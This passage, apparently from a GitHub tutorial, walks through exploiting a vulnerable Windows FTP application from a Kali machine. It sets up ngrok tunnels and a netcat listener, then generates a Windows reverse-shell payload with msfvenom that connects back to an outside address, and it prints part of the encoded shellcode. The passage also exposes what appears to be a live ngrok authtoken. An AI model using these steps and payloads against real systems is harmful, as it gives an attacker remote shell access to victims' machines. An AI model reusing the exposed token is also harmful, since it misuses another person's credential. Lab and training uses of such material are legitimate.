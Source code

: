 ```sh
   help         Shows a list of commands or help for one command
```
The Ngrok wellcome screen... in order to create a ftp (21) service in ngrok just type
```sh
ngrok tcp 21
--------------------------------------------------------------------------------
If you have already signed up, make sure your authtoken is installed.
Your authtoken is available on your dashboard: https://dashboard.ngrok.com/auth/your-authtoken
```
Log in ngrok and copy the authtoken (you can use a temporary email service as Temp Mail - temp-mail.org)

paste your authtoken using the follow command 
```sh
./ngrok authtoken "*****************************************"
ngrok by @inconshreveable                                                                               (Ctrl+C to quit)                                                                                                                        Session Status                online                                                                                    Account                       tester (Plan: Free)                                                                       Version                       2.3.35                                                                                    Region                        United States (us)                                                                        Web Interface                 http://127.0.0.1:4040                                                                     Forwarding                    tcp://xxxxxxxxxxx.io:xxxxx -> localhost:21                                                                                                                                                                        Connections                   ttl     opn     rt1     rt5     p50     p90                                                                             0       0       0.00    0.00    0.00    0.00  
```
We open netcat to lisen on port 21, go to your netcat location and run it with the next command
```sh
nc -l -p 21
```
Check if netcat service is lisening at port 21.

Now it's time to open the vulnerable app on windows and start the kali machine to set it up as attacking machine.
Install ngrok for linux on the kali machine. 

Create a new authtoken for ngrok, paste and run these commands:
sh````
./ngrok authtoken 1nBkEGfhS0wi7S7UVGrmk93XSzu_45cNBsHJus9vMriC9k7Jw
./ngrok tcp 2021
```
ping to forwarding address
sh```
ping 2.tcp.ngrok.io
---
obtaining the remote ip address (*.*.*.*)
Create a reverse shell with metaexplot msvenom with the following command
```sh
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp -e x86/alpha_mixed LHOST=3.131.207.170 LPORT=11954  -f python
```
Ensure IP and port values are both correct
```sh
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 710 (iteration=0)
x86/alpha_mixed chosen with final size 710
Payload size: 710 bytes
Final size of python file: 3456 bytes
buf =  b""
buf += b"\xda\xd0\xd9\x74\x24\xf4\x59\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x43\x37\x51"
buf += b"\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51"
```